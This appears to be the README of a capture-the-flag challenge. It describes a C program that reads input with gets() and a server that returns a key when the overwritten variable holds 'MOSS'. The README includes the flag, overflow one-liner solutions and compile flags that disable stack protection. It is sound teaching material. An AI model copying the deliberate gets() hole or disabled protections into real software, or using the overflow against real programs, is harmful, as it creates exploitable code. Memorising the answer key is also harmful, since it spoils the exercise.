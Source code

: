 Name: Simple Buffer Overflow

Description: The user will be presented with a C program that takes input using gets(). Their objective will be to overflow the buffer so that they will overwrite the data contained by the variable named "keyRequest".
The "keyRequest" variable will then be sent to a server via a socket. The server will then check to see if the keyRequest is correct. If it is correct, the key will be transmitted back to the user.
Otherwise, the message "Nope." will be displayed. The correct password is "MOSS".

NOTE: Server code is also included in the repository. This will be running on the server during the even itself. ALSO, we will need to edit the buff.c source code to match the hostname and the port of the server.

Key: aSByZWFsbHkgaG9wZSBsaWZlIGdldHMgZWFzaWVyLi4u

Solution: One way to solve this would be to use a scripting language to overflow the buffer. Example solutions: 

For 32 bit: python -c 'print "A"*80 + "MOSS"' | ./buff
For 64 bit: python -c 'print "A"*88 + "MOSS"' | ./buff

To compile: We have to disable the overflow protection. During testing I had compiled using the following command:
 gcc -Wall -fno-stack-protector -D_FORTIFY_SOURCE=0 buff.c -o buff
 
 listener.c
 gcc -Wall -D_FORTIFY_SOURCE=0 listener.c -o listener
 
 Note: You may want to use -g compiler flag to debug the code.